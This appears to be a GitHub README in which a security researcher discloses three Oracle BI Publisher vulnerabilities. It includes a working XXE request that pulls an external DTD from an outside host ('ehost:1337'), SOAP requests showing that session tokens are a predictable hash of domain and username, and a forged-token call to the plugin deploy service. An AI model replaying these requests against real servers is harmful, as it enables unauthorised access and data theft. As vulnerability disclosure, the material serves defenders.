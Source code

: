 # Oracle-BI-bugs

## CVE-2019-2767
 * Subject: XXE IN CONVERT SERVLET
 * CVSSv3.0 Base Score: 7.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
 
```
GET /xmlpserver/convert?xml=<%3fxml+version%3d"1.0"+%3f><!DOCTYPE+r+[<!ELEMENT+r+ANY+><!ENTITY+%25+sp+SYSTEM+"http%3a//ehost%3a1337/ev.xml">%25sp%3b%25param1%3b]>&_xf=Excel&_xl=123&template=123 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflat
Connection: close
Upgrade-Insecure-Requests: 1
```

## CVE-2019-2768
 * Subject: ACCESS TO ADMIN SERVICES, SESSION GENERATION ERROR
 * CVSSv3.0 Base Score: 7.5
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
 
Oracle BI has xmlpserver which uses an administrator to configure the server. To use xmlpserver services, the administrator needs to create a session using createSession function.
```
POST /xmlpserver/services/XMLPService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 610

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:rep="http://xmlns.oracle.com/oxp/service/report">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:createSession soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">weblogic</username>
         <password xsi:type="xsd:string">asdQWE123</password>
         <domain xsi:type="xsd:string">bi</domain>
      </rep:createSession>
   </soapenv:Body>
</soapenv:Envelope>

```
I tried to generate a session a few time and I got the same value in the response. I changed the password and but again I got 
```
<v2:sessionToken>-1626402211</v2:sessionToken>
```
```java
private String createCallerSession(final XDOPrincipal user, final String domain) {
        Logger.log("XMLPService.createCallerSession...if here things are looking ok", 1);
        final String token = tokenize(domain, user.getName());
        final XDOPrincipal principal = TokenHolder.getPrincipal(token);
        if (principal == null) {
            final XDOPrincipal guser = (XDOPrincipal)GlobalUser.get();
            TokenHolder.addPrincipal(token, guser);
        }
        return token;
    }
    
    private static String tokenize(final String domain, final String username) {
        final StringBuffer sb = new StringBuffer();
        if (domain != null) {
            sb.append(domain);
        }
        sb.append(':').append(username);
        final int key = sb.toString().hashCode();
        return new Integer(key).toString();
    }
```
WHAT? Is the session consists of two public datas? I tried to write a simple code here what I got
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/hash.png)



```
POST /xmlpserver/services/v2/PluginService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 431

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:v2="http://xmlns.oracle.com/oxp/service/v2">
   <soapenv:Header/>
   <soapenv:Body>
      <v2:deploy>
         <v2:sessionToken>-1626402211</v2:sessionToken>
         <v2:appPath>0</v2:appPath>
         <v2:pluginName>1</v2:pluginName>
         <v2:uploadedData>2</v2:uploadedData>
      </v2:deploy>
   </soapenv:Body>
</soapenv:Envelope>
```



## CVE-2019-2771
 * Subject: BIP BYPASS FONT UPLOAD
 * CVSSv3.0 Base Score: 8.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:L
 
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f1.png)

![upload](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f2.png)

![write file](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f3.png)

![file on the system](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f4.png)
